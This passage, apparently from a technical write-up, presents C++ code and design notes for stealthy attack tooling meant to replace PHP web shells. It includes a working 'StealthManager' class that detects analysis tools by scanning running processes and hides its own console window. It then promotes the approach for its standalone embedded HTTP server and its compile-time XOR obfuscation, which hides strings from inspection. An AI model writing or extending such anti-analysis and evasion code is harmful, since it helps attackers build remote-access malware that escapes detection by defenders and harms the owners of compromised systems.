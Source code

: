 ### 6. Anti-Analysis and Stealth

**Enhanced C++ Features:**
```cpp
class StealthManager {
public:
    bool detectAnalysisTools() {
        HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        PROCESSENTRY32 pe32;
        pe32.dwSize = sizeof(PROCESSENTRY32);
        
        if (Process32First(hSnapshot, &pe32)) {
            do {
                std::string processName = pe32.szExeFile;
                for (const auto& suspicious : suspiciousProcesses) {
                    if (processName.find(suspicious) != std::string::npos) {
                        CloseHandle(hSnapshot);
                        return true;
                    }
                }
            } while (Process32Next(hSnapshot, &pe32));
        }
        
        CloseHandle(hSnapshot);
        return false;
    }
    
    void enableStealthMode() {
        HWND hwnd = GetConsoleWindow();
        if (hwnd != NULL) {
            ShowWindow(hwnd, SW_HIDE);
        }
        SetPriorityClass(GetCurrentProcess(), BELOW_NORMAL_PRIORITY_CLASS);
    }
};
```

## Key Advantages of C++ Implementation

### 1. **No Hosting Required**
- PHP shells require web server (Apache, Nginx) and PHP runtime
- C++ tools run standalone with embedded HTTP server
- No dependencies on external infrastructure

### 2. **Compile-Time Obfuscation**
- PHP strings are visible in source code
- C++ uses template-based XOR obfuscation at compile time
- Strings are encrypted in binary and decrypted at runtime

### 3. **Enhanced Performance**
- Native binary execution vs interpreted PHP
- Direct system API calls vs PHP function wrappers
- Lower memory footprint and faster execution
